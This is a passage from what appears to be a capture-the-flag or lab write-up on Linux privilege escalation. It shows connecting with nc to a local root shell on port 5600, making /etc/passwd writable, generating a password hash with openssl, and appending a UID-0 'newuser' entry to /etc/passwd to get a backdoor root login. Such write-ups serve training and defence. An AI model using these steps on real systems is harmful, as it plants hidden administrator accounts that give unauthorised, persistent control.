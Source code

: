 - We're getting a listening port 5600, let's connect to it!

```
nc 127.0.0.1 5600
```

![img29](screenshots/img29.png)

- So we've gained access to the root shell and as you can see in the above screenshots we've also changed the permission of the /etc/passwd file so that we could some modify it and create a user with root privileges.
	- creating a sample password hash for the new user:
```
openssl passwd -1
```

![img30](screenshots/img30.png)

- add the **newuser** in the **/etc/passwd** file at the end of it! 👇

```
newuser:$1$js5DBsjB$A9KzM9OSRyipE2HieSmq41:0:0:root:/root:/bin/bash
```

- Now you can login as root with this new user:

```
su newuser // and then enter the password : 1
```

![img31](screenshots/img31.png)